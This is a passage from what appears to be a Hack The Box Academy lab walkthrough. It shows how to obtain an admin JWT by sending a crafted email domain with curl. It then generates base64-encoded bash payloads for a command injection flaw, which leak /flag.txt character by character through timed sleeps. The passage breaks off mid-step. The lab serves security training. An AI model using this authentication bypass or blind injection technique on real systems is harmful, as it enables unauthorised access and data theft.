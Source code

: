 Students need to begin by using `curl` to send a POST request to `/api/auth/authenticate` on the remote web application, with a JSON body containing `email` data. Additionally, the `email` data must contain an `@hackthebox.com` email address, resulting in a JWT with the admin role:

Code: shell

```shell
curl -s -X POST -H "Content-Type: application/json" -d '{"email": "test@hackthebox.com"}' http://STMIP:STMPO/api/auth/authenticate
```

```
┌─[us-academy-1]─[10.10.15.254]─[htb-ac-594497@htb-tkodmhrqgu]─[~]
└──╼ [★]$ curl -s -X POST -H "Content-Type: application/json" -d '{"email": "test@hackthebox.com"}' http://94.237.54.59:50504/api/auth/authenticate

{"token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJlbWFpbCI6InRlc3RAaGFja3RoZWJveC5jb20iLCJyb2xlIjoiYWRtaW4iLCJpYXQiOjE3MDEwNDE3ODIsImV4cCI6MTcwMTEyODE4Mn0.Ow17Rwy0NiFisOzEhNIosbv7pQYX2mPgw2oamoQijDA"}
```

Next, students need to craft multiple payloads to send to `/api/service/generate` endpoint. The payload should make the server output the contents of `/flag.txt`, then compare each character of the flag to numbers `0-5`. If it matches, then the server shall sleep for 2 seconds: Additionally, students need to base64 encode their payloads, then through command injection vulnerability, have the server decode it and pipe into bash.

To begin, students need generate the base64 encoded payloads for the first position of the flag:

Code: shell

```shell
for i in {0..5}; do   echo -n "Character: $i    "; echo -n "cat /flag.txt | head -c 1 | tail -c 1 | { read c; if [ \$c = $i ]; then sleep 2; fi; }" | base64 -w0; echo \n; done
```

```
┌─[us-academy-1]─[10.10.15.254]─[htb-ac-594497@htb-tkodmhrqgu]─[~]
└──╼ [★]$ for i in {0..5}; do   echo -n "Character: $i    "; echo -n "cat /flag.txt | head -c 1 | tail -c 1 | { read c; if [ \$c = $i ]; then sleep 2; fi; }" | base64 -w0; echo \n; done

Character: 0    Y2F0IC9mbGFnLnR4dCB8IGhlYWQgLWMgMSB8IHRhaWwgLWMgMSB8IHsgcmVhZCBjOyBpZiBbICRjID0gMCBdOyB0aGVuIHNsZWVwIDI7IGZpOyB9n
Character: 1    Y2F0IC9mbGFnLnR4dCB8IGhlYWQgLWMgMSB8IHRhaWwgLWMgMSB8IHsgcmVhZCBjOyBpZiBbICRjID0gMSBdOyB0aGVuIHNsZWVwIDI7IGZpOyB9n
Character: 2    Y2F0IC9mbGFnLnR4dCB8IGhlYWQgLWMgMSB8IHRhaWwgLWMgMSB8IHsgcmVhZCBjOyBpZiBbICRjID0gMiBdOyB0aGVuIHNsZWVwIDI7IGZpOyB9n
Character: 3    Y2F0IC9mbGFnLnR4dCB8IGhlYWQgLWMgMSB8IHRhaWwgLWMgMSB8IHsgcmVhZCBjOyBpZiBbICRjID0gMyBdOyB0aGVuIHNsZWVwIDI7IGZpOyB9n
Character: 4    Y2F0IC9mbGFnLnR4dCB8IGhlYWQgLWMgMSB8IHRhaWwgLWMgMSB8IHsgcmVhZCBjOyBpZiBbICRjID0gNCBdOyB0aGVuIHNsZWVwIDI7IGZpOyB9n
Character: 5    Y2F0IC9mbGFnLnR4dCB8IGhlYWQgLWMgMSB8IHRhaWwgLWMgMSB8IHsgcmVhZCBjOyBpZiBbICRjID0gNSBdOyB0aGVuIHNsZWVwIDI7IGZpOyB9n
```

While sending each payload to the target, students need to prepend their command with `time`, allowing the standard output to display when the target server sleeps successfully:
